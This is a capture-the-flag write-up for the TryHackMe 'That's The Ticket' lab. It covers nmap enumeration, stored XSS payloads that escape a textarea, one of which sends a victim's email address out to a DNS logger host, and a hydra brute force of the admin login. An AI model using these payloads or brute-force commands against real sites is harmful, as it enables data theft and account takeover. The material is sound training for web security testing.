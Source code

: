 # TryHackMe-That's The Ticket

**Scope:**

- DNS Logger
- Cross Site Scripting (XSS)

**Keywords:**

- Internal Logic Discovery & Endpoint Control
- HTML Injection & Cross Site Scripting (XSS)
- DNS Logger & Cross Site Scripting (XSS)
- Login Brute Force

**Main Commands:**

- `nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -p- --min-rate 1000 --max-retries 3 $target_ip`
- `cat /usr/share/seclists/Fuzzing/special-chars.txt | awk '{print $1}' ORS=`
- `curl --path-as-is -iskLX $'GET' -b $'token=f986063f5e03865bbecb12613efb0c76' $'http://ticket.thm/2'`
- `hydra -l 'adminaccount@itsupport.thm' -P /usr/share/wordlists/rockyou.txt ticket.thm http-post-form "/login:email=^USER^&password=^PASS^&Login=Login:Invalid email / password combination" -V -t 50 -F`

### Laboratory Environment

[That's The Ticket](https://tryhackme.com/r/room/thatstheticket)

> **Laboratory Requirements**
> 

```jsx
Hint: Our HTTP & DNS Logging tool on http://10.10.10.100 may come in useful!
```

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -p- --min-rate 1000 --max-retries 3 $target_ip`

```jsx
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bf:c3:9c:99:2c:c4:e2:d9:20:33:d1:3c:dc:01:48:d2 (RSA)
|   256 08:20:c2:73:c7:c5:d7:a7:ef:02:09:11:fc:85:a8:e2 (ECDSA)
|_  256 1f:51:68:2b:5e:99:57:4c:b7:40:15:05:74:d0:0d:9b (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Ticket Manager > Home
```

> **HTTP Port Check**
> 

`curl -iLX GET -D response.txt http://ticket.thm`

```jsx
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 21 Dec 2024 10:17:57 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive

<!DOCTYPE html>
<html lang="en">
<head>
    <title>Ticket Manager > Home</title>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
</head>
<body>
<div class="container" style="padding-top:60px">
    <h1 class="text-center">Ticket Manager</h1>
    <div class="row">
        <div class="col-md-6 col-md-offset-3">
            <div class="panel panel-default">
                <div class="panel-heading">What is Ticket Manager?</div>
                <div class="panel-body text-center">
                    Ticket Manager allows AcmeCorp employees to log support tickets with IT support
                </div>
            </div>
            <div class="text-center"><a href="/login" class="btn btn-success">Login</a> or <a href="/register" class="btn btn-info">Register</a></div>
        </div>
    </div>
</div>
<script src="/jquery.min.js"></script>
<script src="/bootstrap.min.js"></script>
</body>
</html>
```

> **Internal Logic Discovery & Endpoint Control Phase**
> 

![image.png](image.png)

![image.png](image%201.png)

**CREDENTIAL:**

```jsx
overthenet@overthenet.com : overthenet
```

![image.png](image%202.png)

`cat /usr/share/seclists/Fuzzing/special-chars.txt | awk '{print $1}' ORS=`

```jsx
~!@#$%^&*()-_+={}][|\`,./?;:'"<>
```

![image.png](image%203.png)

![image.png](image%204.png)

`curl --path-as-is -iskLX $'GET' -b $'token=f986063f5e03865bbecb12613efb0c76' $'http://ticket.thm/2'`

```jsx
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 21 Dec 2024 10:26:07 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive

[REDACTED] - MORE

<div><textarea class="form-control" style="height: 200px">~!@#$%^&*()-_+={}][|\`,./?;:'"<></textarea></div>

[REDACTED] - MORE
```

> **HTML Injection & Cross Site Scripting (XSS) Phase**
> 

![image.png](image%205.png)

![image.png](image%206.png)

![image.png](image%207.png)

![image.png](image%208.png)

> **DNS Logger & Cross Site Scripting (XSS) Phase**
> 

![image.png](image%209.png)

![image.png](image%2010.png)

**SERVER:**

```jsx
b6aeafc011fd73284e5c063feab7db12.log.tryhackme.tech
```

**NOTE:**

```jsx
You can try the steps here several times.
Therefore, even if the server information changes, the approach is the same.
Don't mind the differences in the visual.
```

![image.png](image%2011.png)

**PAYLOAD:**

```jsx
</textarea><img src="http://d048173385a3ba388cdb3d5996933512.log.tryhackme.tech"><textarea>
```

![image.png](image%2012.png)

![image.png](image%2013.png)

**PAYLOAD:**

```jsx
</textarea><script>
const xhr = new XMLHttpRequest();
xhr.open("GET", "http://5178f2e5af1900ce052f7d94d8e63dc9.log.tryhackme.tech")
xhr.send()
</script>
```

![image.png](image%2014.png)

![image.png](image%2015.png)

**PAYLOAD:**

```jsx
</textarea><script>
var text = document.getElementById('email').textContent.replace("@", "0").replace(".", "1");
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://"+text+".48df9861105fea489174f0a594a938c7.log.tryhackme.tech");
xhr.send();
</script>
```

![image.png](image%2016.png)

**OUTPUT:**

```jsx
adminaccount0itsupport1thm = adminaccount@itsupport.thm
```

> **Login Brute Force Phase**
> 

`hydra -l 'adminaccount@itsupport.thm' -P /usr/share/wordlists/rockyou.txt ticket.thm http-post-form "/login:email=^USER^&password=^PASS^&Login=Login:Invalid email / password combination" -V -t 50 -F`

```jsx
[80][http-post-form] host: ticket.thm   login: adminaccount@itsupport.thm
password: 123123
```

> **Admin Account Access Phase**
> 

![image.png](image%2017.png)

![image.png](image%2018.png)